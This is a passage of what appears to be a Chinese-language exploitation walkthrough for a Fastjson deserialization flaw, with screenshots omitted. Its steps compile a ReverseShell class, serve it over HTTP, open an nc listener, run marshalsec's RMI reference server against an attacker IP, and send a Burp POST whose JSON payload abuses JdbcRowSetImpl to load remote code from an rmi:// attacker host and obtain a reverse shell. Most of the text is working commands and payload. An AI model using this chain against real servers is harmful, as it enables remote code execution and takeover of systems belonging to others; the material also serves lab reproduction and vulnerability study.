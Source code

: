 ![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010750993-675e544d-5dad-4731-bab1-5148db18d3d8.png#clientId=u7cd9ae79-4115-4&from=paste&id=ub2f0d580&margin=%5Bobject%20Object%5D&name=image.png&originHeight=296&originWidth=809&originalType=binary&ratio=1&size=42494&status=done&style=none&taskId=ua98d309d-8b21-4e32-90b5-b59f7600fd8)


生成class文件：
`javac ReverseShell.java`
​

#### 2）python3开启http服务
ReverseShell.class文件所在处开启http服务
`python3 -m http.server 8888`

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010342714-e663670c-4296-4203-992e-493f14bc6cd9.png#clientId=u7cd9ae79-4115-4&from=paste&id=uf7084c92&margin=%5Bobject%20Object%5D&name=image.png&originHeight=103&originWidth=1096&originalType=binary&ratio=1&size=29265&status=done&style=none&taskId=ud236eff3-9a18-4844-82c2-a285f3eeecf)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010419592-94fb8d4c-6556-47a1-b694-d5d4d4e33cd3.png#clientId=u7cd9ae79-4115-4&from=paste&id=u51a954c4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=99&originWidth=822&originalType=binary&ratio=1&size=26306&status=done&style=none&taskId=u730016ca-c61e-4d72-8b53-a32332b374a)

#### 3）kali开启监听
`nc -lvvp 4444`
​

#### 4）使用marshalsec
marshalsec使用RMI利用模块：
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://攻击方ip:8888/#ReverseShell" 9999
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010452252-9502dc9d-9b1b-4e7e-80d7-29454688dbba.png#clientId=u7cd9ae79-4115-4&from=paste&id=uec79cbda&margin=%5Bobject%20Object%5D&name=image.png&originHeight=84&originWidth=1320&originalType=binary&ratio=1&size=27866&status=done&style=none&taskId=u07f15051-9834-4af3-a097-b5345415c1d)


#### 5）burp传恶意json数据
```shell
POST / HTTP/1.1
Host: 192.168.210.206:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 270

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.210.156:9999/ReverseShell",
        "autoCommit":true
    }
}
```
